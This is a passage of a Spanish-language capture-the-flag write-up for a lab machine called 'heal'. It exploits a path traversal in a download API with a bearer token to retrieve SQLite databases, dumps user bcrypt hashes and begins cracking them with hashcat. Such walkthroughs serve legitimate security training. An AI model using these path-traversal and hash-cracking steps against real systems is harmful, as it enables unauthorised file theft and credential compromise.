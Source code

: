 Nos las descargamos: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ curl --path-as-is -s -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' 'http://api.heal.htb/download?filename=../../storage/development.sqlite3' --output development.sqlite3

┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ file development.sqlite3 
development.sqlite3: SQLite 3.x database, last written using SQLite version 3045002, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 2
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ curl --path-as-is -s -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' 'http://api.heal.htb/download?filename=../../storage/test.sqlite3' --output test.sqlite3
```


En `test.sqlite3` no encontramos nada interesante, en la otra BD sí: 
```bash
┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ sqlite3 development.sqlite3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  token_blacklists
schema_migrations     users
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|dano@test.com|$2a$12$cGr/Tc163IT2oyEnDUq6zeDXfbuM66NffU5Gt42G2DyEJwykoNXyy|2025-05-18 18:13:12.837941|2025-05-18 18:13:12.837941|dano|dano|0
sqlite>
```

Tenemos un hash, podemos descubrir de qué tipo de hash se trata, primero en modo autodetección:

```bash 
┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ hashcat hash.ralph /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-AMD A9-9420 RADEON R5, 5 COMPUTE CORES 2C+3G, 873/1811 MB (256 MB allocatable), 2MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Sun May 18 22:39:53 2025
Stopped: Sun May 18 22:40:12 2025
```